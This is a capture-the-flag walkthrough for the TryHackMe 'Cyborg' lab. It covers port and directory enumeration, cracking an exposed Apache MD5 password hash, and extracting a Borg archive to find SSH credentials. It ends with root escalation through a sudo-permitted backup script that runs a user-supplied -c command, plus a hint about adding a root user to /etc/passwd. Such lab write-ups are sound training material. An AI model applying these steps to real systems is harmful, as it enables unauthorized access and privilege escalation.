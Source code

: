 ```yaml
---
description: https://tryhackme.com/room/cyborgt8
---
```


# Cyborg

## Nmap

```bash
sudo nmap 10.10.159.139 -p- -sS -sV

PORT   STATE    SERVICE VERSION

22/tcp open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Default root page for the web server points to the Apache2 page.

![](<../../../.gitbook/assets/image (454).png>)

We can then use `feroxbuster` to enumerate further directories and files.

```bash
feroxbuster -u <IP> -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

![](<../../../.gitbook/assets/image (2067).png>)

From the results above the /etc/squid/passwd is potentially interesting. Using curl we can read the contents of the file from the terminal.

```bash
curl http://<IP>/etc/squid/passwd
```

Reveals the user and hash combination: `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

This was then cracked using John against the rockyou.txt wordlist.

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt   
```

![](../../../.gitbook/assets/cyborg-John.png)

For now, we can keep a note of the cracked password. Looking again at the feroxbuster results we can browse to `http://<IP>/admin` which shows the web page below.

![](<../../../.gitbook/assets/image (161) (2).png>)

Under the Archive drop down menu there is an opporunity to download a `archive.tar` compressed archive. This archive is extractable without providing a password.

The archive extracts down into the path: `home/field/dev/final_archive/`

Looking through the files `README.txt` gives indication that the archive was created with Borg Backup.

![](<../../../.gitbook/assets/image (132).png>)

The command below will install Borg Backup.

```bash
sudo apt-get install borgbackup
```

Shown below are the commands and linked documentation for listing and extract Borg archives. As shown in the second command the archive can be extract with Borg, where we will be prompted to provide password authentication to decrypt and extract the archive.

```bash
# https://borgbackup.readthedocs.io/en/stable/usage/list.html
borg list ~/Downloads/home/field/dev/final_archive 

# https://borgbackup.readthedocs.io/en/stable/usage/extract.html
borg extract ~/Downloads/home/field/dev/final_archive/::music_archive
```

After entering the cracked password from earlier, the command below can be used to find interesting files within the newly extract archive which appears to represent the user profile for the user alex.

```bash
find ~/Desktop/home -name *.txt 
```

![](<../../../.gitbook/assets/image (68) (2).png>)

The `note.txt` file in Alex's documents reveals a password for his `SSH` login.

![](<../../../.gitbook/assets/image (47) (2).png>)

After successfully logging in with SSH we are able to check what `sudo` permissions Alex has on the target system.

Checking `sudo -l`.

![](<../../../.gitbook/assets/image (51) (2).png>)

Alex has the ability to run `sudo` as any user without providing a password on the bash script `/etc/mp3backups/backup.sh`.

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

There is an opportunity to run commands at the end of the script.

```bash
cmd=$($command)
echo $cmd
```

Running a command after the script using the `-c` parameter allows commands to be executed in the context of root.

{% hint style="info" %}
reading the contents of `/home/alex/.bash_history` also shows where the user alex has used the same methods previously to perform elevated functions with the script.
{% endhint %}

```bash
sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
```

![](../../../.gitbook/assets/cyborg\_Pe.png)

This allows for the root flag to be read.

{% hint style="info" %}
For a root shell its possible to use this function to echo in a new root user into /etc/passwd.
{% endhint %}
